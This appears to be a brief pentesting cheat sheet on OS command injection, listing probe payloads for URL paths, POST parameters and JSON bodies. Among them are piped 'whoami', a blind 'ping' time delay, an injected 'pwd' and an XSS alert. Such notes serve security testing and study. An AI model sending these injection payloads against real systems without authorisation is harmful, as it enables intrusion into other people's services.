 ```yaml
---
title: OS Command Injection
desc: 
tags: [Burp, Command Injection, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change URL Path/Parameters

```
/api/cmd/whoami
/command/whoami

/?cmd=whoami
```

<br />

## 2. Change POST Parameters

1. **Basic Command Injection**

    ```html
    productId=1&stockId=1|whoami
    ```

2. **Blind Command Injection (Time Delay)**

    Using **"ping"** command.

    ```html
    name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
    ```

3. **JSON Injection**

    ```json
    { "username": "\"; pwd \"" }
    {"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
    {"name": "admin", "content": "{{template: ./admin.php}}"}
    ```